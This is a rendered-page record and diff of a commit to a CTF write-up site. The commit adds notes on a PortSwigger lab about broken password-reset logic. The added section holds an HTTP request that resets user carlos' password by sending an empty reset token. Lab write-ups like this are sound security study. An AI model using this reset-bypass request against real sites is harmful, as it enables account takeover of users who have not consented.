

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md, in a window 1280 px wide and 1163 px high. Shown: the whole window at 89% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
feat(bscp): solve pw reset lab

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
@@ -17,3 +17,17 @@ Use Intruder with username and pw as sniper targets
 1. recieve 2FA code via e-mail
 1. ???
 1. Profit
+
+##  Password reset broken logic
+
+The `temp-forgot-password` parameter is not checked, so we can just send a
+request in carlos' name
+
+```
+POST /forgot-password/?temp-forgot-password-token HTTP/2
+Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
+Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
+[...]
+
+temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
+```
````
